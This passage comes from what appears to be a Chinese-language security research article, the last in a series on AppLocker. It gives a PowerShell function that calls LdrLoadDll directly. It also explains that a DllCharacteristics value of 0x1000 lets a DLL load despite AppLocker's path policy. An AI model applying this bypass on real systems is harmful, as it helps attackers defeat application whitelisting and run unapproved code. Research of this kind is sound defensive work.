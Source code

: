 ```
Import-Module NtObjectManager

function Start-Dll `{`
    Param(
        [Parameter(Mandatory, Position = 0)]
        [string]$Name,
        [Parameter(Position = 1)]
        [int]$DllChars = 0
    )

    $src = @'
using NtApiDotNet;
using System;
using System.Runtime.InteropServices;

public static class DllLoader
`{`
    [DllImport("ntdll.dll")]
    static extern NtStatus LdrLoadDll(int dwFlags, ref int DllCharacteristics,
        [In] UnicodeString DllName, out IntPtr BaseAddress);

    public static IntPtr Load(string path, int dll_chars)
    `{`
        IntPtr base_address;
        LdrLoadDll(1, ref dll_chars, new UnicodeString(path), out base_address).ToNtException();
        return base_address;
    `}`
`}`
'@
    $asm = [NtApiDotNet.NtFile].Assembly.Location
    Add-Type -TypeDefinition $src -ReferencedAssemblies $asm
    [DllLoader]::Load($Name, $DllChars)
`}`
```

如果我们执行`Start-Dll "Path\To\Any.DLL"`命令，且目标DLL不在策略允许的位置中，那么DLL会加载失败。然而如果我们执行`Start-Dll "Path\To\Any.DLL" 0x1000`命令，可以发现DLL能被正常加载。



## 0x02 总结

从实际层面来看，DLL阻止机制还有更多细节，不单单是通过DLL加载程序绕过进程阻止策略这么简单。如果没办法调用`LdrLoadDll`或者写入进程内存，我们就没有那么容易绕过DLL验证机制（但这并非不可完成的任务）。

这是详解AppLocker的最后一篇文章，回头我可能会继续讨论AppX支持、SmartLocker以及其他一些有趣的技巧。
